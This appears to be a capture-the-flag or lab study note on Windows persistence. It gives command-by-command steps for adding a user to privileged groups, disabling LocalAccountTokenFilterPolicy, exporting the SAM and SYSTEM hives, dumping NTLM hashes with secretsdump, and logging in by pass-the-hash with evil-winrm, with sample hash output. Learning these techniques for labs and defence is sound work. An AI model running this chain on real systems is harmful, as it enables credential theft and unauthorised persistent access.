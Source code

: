 **We will assume that you have dumped the password hashes and successfully cracked the passwords for the unprivileged accounts in use.**

---
#### 1. Assign local users to Groups
**Direct way to make an unprivileged user gain administrative privileges is to make it part of the `Administrators group`**
```cmd
net localgroup administrators thmuser0 /add
```
- This will allow access to the server by using `RDP`, `WinRM`, or any other remote administration service.

If that looks suspicious, use the `Backup Operators` group. Users in this group won't have administrative privileges, but will be ***allowed to read/write any file or registry key on the system, ignoring any configured DACL***. This will allows us to copy the content of the `SAM` and `SYSTEM` registry hives.
```cmd
net localgroup "Backup Operators" thmuser1 /add
```
- It **cannot `RDP` or `WinRM`**, unless we add it to the `Remote Desktop Users (RDP)` or `Remote Management Users (WinRM)` groups.

---

2. **Since this is an unprivileged account, it can't RDP or WinRM back to the machine. So, add the user to these groups**
```cmd
# RDP
net localgroup "Remote Desktop Users" thmuser1 /add

# WinRM
net localgroup "Remote Management Users" thmuser1 /add
```

---
#### Evil-WinRM
1. **Attacker machine**
```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```
- Even if you are connected from your ***attacker machine***, and even if you are on the ***Backup Operators or Administrators group***, you would ***not be able to access all files remotely because `UAC limits your privileges`***. This happens due to `LocalAccountTokenFilterPolicy`, which ***strips admin rights from local accounts during remote (WinRM) logins***. 
- Check the groups:
	```
	whoami /groups
	```
	- `Group used for deny only:` means the ***privileges are stripped*** away

2. **Regain `Administrator Privileges` from your user by disabling `LocalAccountTokenFilterPolicy`**
```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

3. Re-establish the `WinRM` connection again and check that the `Backup Operators` group is enabled.

4. **Backup `SAM` and `SYSTEM` files**
```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak

download system.bak
download sam.bak
```

5. **With those files, we can dump the password hashes for all users using `secretsdump.py`**
```python
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

#### Perform Pass-the-Hash
**Attacker machine**
```bash
evil-winrm -i <target-ip> -u <username> -H <NTLM-hash>
```

#### Example
**Dump the hash**
```bash
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

**Perform pass-the-hash**
```bash
evil-winrm -i <target-ip> -u Administrator -H f3118544a831e728781d780cfdb9c1fa
```